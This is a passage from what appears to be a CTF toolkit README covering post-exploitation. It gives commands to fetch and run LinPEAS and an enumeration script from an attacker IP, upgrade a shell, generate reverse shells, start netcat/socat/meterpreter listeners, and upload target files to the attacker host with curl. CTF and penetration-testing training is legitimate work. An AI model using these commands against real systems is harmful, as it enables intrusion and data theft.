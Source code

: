 **Start HTTP server for file transfers (in tmux window 3, split pane):**
```bash
./ctf_scripts/http_server.sh -p 8000
```

### 4. Post-Exploitation

**After getting initial shell:**
```bash
# Download and run enumeration script
wget http://10.10.14.5:8000/ctf_scripts/quick_enum.sh
bash quick_enum.sh > enum_output.txt

# Or run LinPEAS
wget http://10.10.14.5:8000/linpeas.sh
bash linpeas.sh
```

**Upgrade shell:**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Press Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

### 5. Documentation

**Update notes (in tmux window 5):**
```bash
vim notes/recon_notes.md
# Document findings, vulnerabilities, and steps
```

## Quick Reference

### Generate All Shell Types
```bash
python3 ctf_scripts/revshell_gen.py -l <YOUR_IP> -p 4444 -a
```

### Start Various Listeners
```bash
# Netcat with rlwrap
./ctf_scripts/listener.sh -p 4444 -r

# Socat (better shell)
./ctf_scripts/listener.sh -t socat -p 4444

# Metasploit
./ctf_scripts/listener.sh -t msfconsole -m linux/x86/meterpreter/reverse_tcp
```

### File Transfer Methods
```bash
# Serve files
./ctf_scripts/http_server.sh -p 8000

# On target - download
wget http://<YOUR_IP>:8000/file
curl http://<YOUR_IP>:8000/file -o file

# Upload (if upload enabled)
curl -X POST -F "file=@localfile" http://<YOUR_IP>:8000/upload
```
